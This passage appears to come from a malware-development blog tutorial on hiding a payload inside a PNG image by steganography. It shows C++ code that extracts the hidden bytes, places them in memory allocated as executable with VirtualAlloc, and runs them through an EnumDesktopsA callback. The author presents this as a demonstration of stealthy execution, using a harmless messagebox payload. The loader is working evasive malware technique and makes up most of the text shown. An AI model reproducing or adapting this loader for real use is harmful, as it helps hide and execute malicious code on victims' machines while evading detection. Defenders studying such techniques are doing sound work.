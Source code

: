 ```cpp
  printf("payload extracted from PNG successfully! :)\n");
}


int main() {
  const char* input_png = "cat.png";
  const char* output_png = "stego.png";
  unsigned char extracted_payload[MAX_PAYLOAD_SIZE] = {0};

  // hide payload inside PNG
//   hide_payload_in_png(input_png, output_png, my_payload, sizeof(my_payload));

  // extract payload from PNG
  extract_payload_from_png(output_png, extracted_payload, sizeof(my_payload));

  printf("decrypted payload: ");
  for (int i = 0; i < sizeof(extracted_payload); i++) {
    printf("%02x ", extracted_payload[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, sizeof(extracted_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, extracted_payload, sizeof(extracted_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);

  return 0;
}
```

So, as you can see, as usual just used `meow-meow` messagebox payload.     

### demo

Let's go to see everything in action: demonstrate its stealthy behavior.     

My cat PNG image for experiments:    
